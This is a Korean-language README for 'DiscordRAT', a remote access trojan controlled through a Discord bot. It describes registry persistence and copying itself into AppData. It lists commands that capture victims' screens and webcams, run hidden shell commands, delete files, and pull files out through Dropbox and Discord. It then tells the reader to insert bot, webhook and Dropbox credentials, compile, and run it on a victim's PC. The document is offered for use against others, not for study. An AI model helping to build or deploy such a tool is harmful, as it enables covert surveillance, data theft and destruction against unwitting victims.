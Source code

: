 ![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)

Discord.NET 을 이용한 reverse shell
## How It Works
프로그램을 실행할시 [init](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/init.cs) 실행(레지스트리 등록 appdata에 악성코드 복사본 등록(injection))
이미 악성코드가 실행중이면 중단하고 아니라면 봇 작동 후
명령어가 들어올시 [Command.command()](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/search.cs) 실행

public 명령어입니다.
```
all                                           모든 피해자 목록 조회
all_screenshot                                모든 피해자 화면 가져오기
all_camshot                                   모든 피해자 캠 가져오기
all_shell                                     모든 피해자에게 shell 명령어 실행
```
private 명령어입니다.
```
(피해자의 아이피) kill                          Discrod_RAT을 종료시킴
(피해자의 아이피) delet                         모든 Discrod_RAT을 삭제
(피해자의 아이피) screenshot                    피해자의 화면을 가져옵니다.
(피해자의 아이피) camshot                       피해자의 캠을 가져옵니다.
(피해자의 아이피) open (파일경로)                피해자 컴퓨터 내부에있는 특정 파일을 엽니다. (shellexecute 사용)
(피해자의 아이피) messagebox (띄울 메시지)       피해자 컴퓨터에 메시지 박스를 띄웁니다.
(피해자의 아이피) messagebox_que (띄울 메시지)   피해자 컴퓨터에 메시지 박스를 띄웁니다.(Question 사용)
(피해자의 아이피) messagebox_error (띄울 메시지) 피해자 컴퓨터에 메시지 박스를 띄웁니다.(Error 사용)
(피해자의 아이피) dropbox_download (파일경로)    dropbox api를 사용해 피해자 컴퓨터의 내부파일을 가져옵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) dropbox_upload (파일경로)      dropbox api를 사용해 피해자 컴퓨터에 파일을 업로드 시킵니다.(무료버전 사용시 최대 2GB크기 까지 가능)
(피해자의 아이피) deletdir (폴더경로)            디렉토리를 삭제합니다. (하위목록까지 전부삭제)
(피해자의 아이피) deletfile (파일경로)           파일을 삭제합니다.
(피해자의 아이피) dir (폴더경로)                 디렉토리 내부의 파일목록을 조회합니다. cmd의 dir과 똑같음
(피해자의 아이피) shell (실행할 명령어)          피해자 컴퓨터에서 shell을 사용(콘솔창은 안뜸)
(피해자의 아이피) downloadfile (파일경로)        discord attachments를 사용해서 파일 다운로드(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
(피해자의 아이피) uploadfile (파일경로)          discord attachments를 사용해서 피해컴퓨터에 특정 파일 다운(최대 25MB까지 다운가능 니트로 사용시 더 큰파일도 가능)
```
## Usage
[필수값](https://github.com/root1234567891234/Discrod_Rat/blob/master/AntiMalware/class/value.cs)을 수정해 봇,후크와 연동한후 컴파일 그리고 피해자PC에서 실행시키세요
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
